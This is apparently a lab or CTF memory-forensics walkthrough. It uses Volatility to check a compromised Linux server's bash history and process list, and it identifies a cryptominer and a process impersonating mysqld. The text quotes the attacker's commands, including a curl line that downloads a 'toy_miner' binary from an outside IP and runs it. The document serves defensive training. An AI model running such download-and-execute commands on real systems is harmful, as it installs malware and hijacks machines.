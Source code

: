 ```
```

When performing a cross-reference check with the elf analyst who was using the server, we identify the following suspicious commands:

- The mysql -u root -p'redacted' command was used by the elf analyst, but the cat /home/elfie/.bash_history command was not. This means the malicious actor most likely saw the MySQL command and had access to the database. There is a lot of sensitive information about the merger and the pipelines that the malicious actor could have gained access to.
- We also identify the curl http://10.0.2.64/toy_miner -o miner command, which the elf analyst confirms they didn't use themselves. This tells us that the malicious actor used cURL to download the toy_miner file and saved it using the -o parameter as a file named miner.
- We can also see that the malicious actor executed the miner file using the ./miner command.

Now that we understand what the malicious actor executed, we can look into the system's running processes.

Running Processes

In memory forensics, examining running processes is a fundamental and crucial part of analysing a system's memory dump. Analysing running processes in memory forensics can be highly effective in identifying anomalies because it provides a baseline for what should be expected in a healthy and normal system. For example, we know that the miner program was executed, so let's see what that process looks like. To examine the running processes on the system, we can use the linux_pslist plugin.

```
ubuntu@volatility:~/Desktop/Evidence$ vol.py -f linux.mem --profile="LinuxUbuntu_5_4_0-163-generic_profilex64" linux_pslist
Volatility Foundation Volatility Framework 2.6.1
Offset             Name                 Pid             PPid                
------------------ -------------------- --------------- ---------------  
0xffff9ce9bd5baf00 systemd              1               0                    
0xffff9ce9bd5bc680 kthreadd             2               0                     
0xffff9ce9bd5b9780 rcu_gp               3               2                    
0xffff9ce9bd5b8000 rcu_par_gp           4               2                    
0xffff9ce9bd5d4680 kworker/0:0H         6               2                    

--cropped for brevity--
0xffff9ce9b1f42f00 mysqld               8839            1                
0xffff9ce9ad115e00 systemd-udevd        10279           387                   
0xffff9ce9b1e4c680 miner                redacted        1                
0xffff9ce9bc23af00 mysqlserver          10291           1                  

--cropped for brevity--
```

As you can see, this plugin doesn't just list each process name. It also lists the process ID (PID) and the parent process ID (PPID). This helps determine what is often referred to as a "parent-child" relationship between processes. There are only two anomalies that we quickly identify: 

- The elf analyst confirmed they didn't execute the miner process. Based on the program name, our initial assumption is that we may be dealing with a cryptominer. A cryptominer, short for cryptocurrency miner, is a computer program or hardware device used to mine cryptocurrencies. Cryptocurrencies are digital or virtual currencies that use cryptographic techniques to secure and verify transactions on a decentralised network called a blockchain. Our insider threat could be trying to use our Linux server to mine cryptocurrencies and make some extra elf bucks.
- The mysqlserver appears to be benign, but this is misleading. The real process for MySQL is called mysqld, as listed above. The elf analyst confirmed that they didn't execute this. Given that the PID of this process is different from the PPID of the miner process, this process did not spawn from the miner directly.
